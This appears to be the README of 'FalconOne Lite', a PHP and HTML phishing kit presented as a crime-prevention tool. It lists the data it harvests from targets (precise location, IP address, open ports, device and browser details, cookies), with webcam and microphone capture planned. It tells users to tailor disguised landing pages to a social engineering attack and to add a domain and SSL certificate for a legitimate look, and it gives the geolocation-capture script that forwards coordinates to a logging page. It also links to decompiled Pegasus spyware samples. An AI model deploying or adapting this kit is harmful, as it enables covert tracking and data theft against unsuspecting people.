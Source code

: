 # FalconOne (v.0.1) - Lite

FalconOne Lite is an Open Source solution deployed and updated on daily basis to help prevent terror and crime. 
By using advanced tools, functions and stealth strategies, FalconOne Lite community is focused on making a friendly and fast solution for effective results.

For more information about the FalconOne Pro, please send an email to the Team at prochan@strikevaults.com.

GENERAL NOTICE:

FalconOne Lite is deployed for ethical and educational purposes only. [Users Should READ the Terms before starting the installation process.](#8-user-Terms)


## Contents

1. [Functions Overview](#1-functions-overview)
2. [Scenarios](#1-Functions-Overview)
3. [Tool Overview](#3-Tool-Overview)
4. [Prerequisites](#4-Prerequisites)
5. [Installation/Setup](#5-InstallationSetup)
6. [Usage](#6-Usage)
7. [Community](#7-Community)
8. [User Terms](#8-user-Terms)
9. [Releases](#9-Releases)
10. [Templates](#10-Templates)


## 1. Functions Overview

### 1.2. Actual Version 0.1 (In Progress to v1.0)

- [x] Target Accurate Location (via Google API)
- [x] Target Public IP Address
- [x] Target Open Port
- [x] Target Device Model and its Version
- [x] Target Browser Model and its Version
- [x] Target Operating System and its Version
- [x] Target Cookies
- [ ] Target Webcam Activation
- [ ] Target Microphone Activation
- [ ] Target Screen Screenshot


## 2. Scenarios

... In Progress


## 3. Tool Overview

FalconOne Lite is based on PHP functions that collects and triggers browser's information functionalities via disguised HTML and CSS templates.
FalconOne Lite is coded as explained below:

### 3.1. Landing Page(s)

- index.html (landing page)

### 3.2. Main Style

- styles/
  - /footer.css
  - /join.css
  - /main.css

### 3.3. PHP Functions

- forward.php

### 3.4. Loggers

- info.txt (for Locations)
- log.txt (for User-Agent information)


## 4. Prerequisites

- Apache (Tested) or Nginx Server
- Public IP Address or a Tunnel (e.g. [Ngrok](https://ngrok.com/))
- Domain Name (Recommended for a legit approach)
- SSL Certificate (for a secure look)


## 5. Installation/Setup

- Upload the Zip file on your Web Server Public directory
- Unzip the FolconOne Lite uploaded file
- Customize index.html and CSS Styles files according to your Social Engineering Attack


## 6. Usage

Once deployed, wait for the target to interact with the landing page functions such as buttons, links, images and popups.
Once the Target interacts with the Landing page function(s), location(s) should be stored in info.txt and other information in log.txt.

The following PHP Functions logic in index.html should not be changed:

```
<p id="errorMessage"></p>

<script>
let message = document.getElementById("errorMessage");

function getLocation(){
  if(navigator.geolocation){
    navigator.geolocation.getCurrentPosition(sendLocation);
  } else{ 
    message.innerHTML = "<em>Your browser is not supported.</em>";
  }
}

function sendLocation(geoLocation) {
  window.location = "forward.php?x="+geoLocation.coords.latitude+"&y="+geoLocation.coords.longitude;
}
</script>
```

In forward.php line 37, you can edit the redirection URL which is google.com by default:

```
header('Location: https://www.google.com/');
```

Or else redirection on Line 40 which is index.html by default:

```
header('Location: index.html');
```

The main Hook function should be respected as below:

```
<a class="yourstyle" onclick="getLocation()">Button</a>
```


## 7. Community

... In Progress


## 8. User Terms

- Users are not allowed to deploy FalconOne Lite on malicious operations
- Users are not allowed to share FalconOne Lite on a commercial purpose or fix a price
- FalconOne Lite is FREE
- FalconOne Lite can be edited according to Users needs


## 9. Releases

- January 9th, 2022: FalconOne Lite v.0.1 (Minor Update)
- January 8th, 2022: FalconOne Lite v.0.1 (Major Upload): Initial Code Upload


## 10. Templates

... In Progress



## Extra Links

- Pegasus Spyware Samples Decompiled & Recompiled: [@jonathandata1](https://github.com/jonathandata1/pegasus_spyware)
